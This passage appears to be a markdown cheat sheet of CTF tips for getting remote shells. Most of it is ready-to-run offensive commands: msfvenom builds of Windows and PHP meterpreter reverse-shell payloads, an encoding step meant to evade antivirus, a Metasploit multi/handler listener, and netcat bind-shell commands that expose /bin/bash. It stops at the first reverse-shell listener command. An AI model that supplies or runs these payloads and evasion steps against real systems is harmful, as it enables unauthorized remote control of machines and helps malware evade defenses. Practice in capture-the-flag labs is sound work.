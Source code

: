 
### 🎯 Pro Tips for CTFs:

- Use **`msfvenom`** to generate standalone payloads:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > shell.exe
```

- For web shell upload:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f raw > shell.php
```

- Use **`multi/handler`** in Metasploit to catch the shell:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

- Encode payloads to evade AV:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -e x86/shikata_ga_nai -f exe > shell.exe
```

---

### 🐚 Shells

Shells are essential for post-exploitation access. They can be **Bind Shells** or **Reverse Shells**, depending on which side initiates the connection.

---

#### 🔗 Bind Shell

Target listens, and attacker connects **in**.

1️⃣ **On Target (create shell):**
```bash
nc -lvp <PORT> -e /bin/bash
```

2️⃣ **On Attacker (connect to shell):**
```bash
nc <TARGET_IP> <PORT>
```

---

#### 🔁 Reverse Shell

Attacker listens, and target connects **back**.

1️⃣ **On Attacker (listen):**
```bash
nc -lvp 9001
```
